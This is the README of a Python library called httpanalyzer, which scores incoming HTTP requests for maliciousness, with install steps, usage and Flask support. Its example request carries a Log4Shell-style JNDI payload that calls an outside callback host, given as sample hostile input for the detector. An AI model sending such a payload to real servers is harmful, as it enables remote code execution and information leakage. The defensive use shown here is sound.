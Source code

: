 <h1 align="center">httpanalyzer</h1>

<p align="center">
<a href="https://www.python.org/"><img alt="Language" src="https://img.shields.io/badge/Language-Python-blue?style=for-the-badge&logo=python"></a>
<a href="https://mit-license.org/"><img alt="License" src="https://img.shields.io/pypi/l/httpanalyzer?color=blueviolet&style=for-the-badge"></a>
<a href="https://pypi.org/project/httpanalyzer/"><img alt="Version" src="https://img.shields.io/pypi/v/httpanalyzer?label=version&logo=pypi&style=for-the-badge"></a>
<a href="https://github.com/MartinMerkli/httpanalyzer"><img alt="Stars" src="https://img.shields.io/github/stars/martinmerkli/httpanalyzer?color=lightgrey&logo=github&style=for-the-badge"></a>
<a href="https://github.com/MartinMerkli/httpanalyzer/commits/main"><img alt="Commit Activity" src="https://img.shields.io/github/commit-activity/m/martinmerkli/httpanalyzer?color=green&style=for-the-badge"></a>
</p>

This is a python library for analyzing http-request. Useful to reduce unnecessary traffic. 

## License

This project is licensed under the MIT-license. See LICENSE.txt for more information.

## Installing

Make sure pip3 is installed and up to date before executing this command.

```
pip3 install httpanalyzer
```

## Usage

Import the library:

```
import httpanalyzer
```

Create a new request instance:

```
instance = httpanalyzer.Request(http_headers, ip, url, admin_panels)
```

Print the malicious rating:

```
print(instance.malicious())
```

### Example

```
import httpanalyzer

instance = httpanalyzer.Request(
    {'Accept': 'text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8',
     'Accept-Encoding': 'gzip, deflate, br',
     'Accept-Language': 'en-US,en;q=0.5',
     'Connection': 'keep-alive',
     'Host': '127.0.0.1:80',
     'User-Agent': 'curl/7.82.0'},
    '159.223.205.51',
    '/api/geojson?url=${jndi:ldap://${sys:os.name}.cd387hid68000106u4rtc.oast.me}',
    ['wp-content', 'wp-config', 'wp-includes', 'wp-admin', 'admin']
)
print(f"Malicious rating: {instance.malicious() * 100}%")
```

### Admin Panels

To reduce the amount of false positives, specify all admin panels you are using. For WordPress this would be `['wp-content', 'wp-config', 'wp-includes', 'wp-admin', 'admin']`.

### Flask

httpanalyzer natively supports flask request objects:

```
instance = httpanalyzer.FlaskRequest(flask.request)
```

## Dependencies

Python 3.6 or newer is required. Older versions do not work.
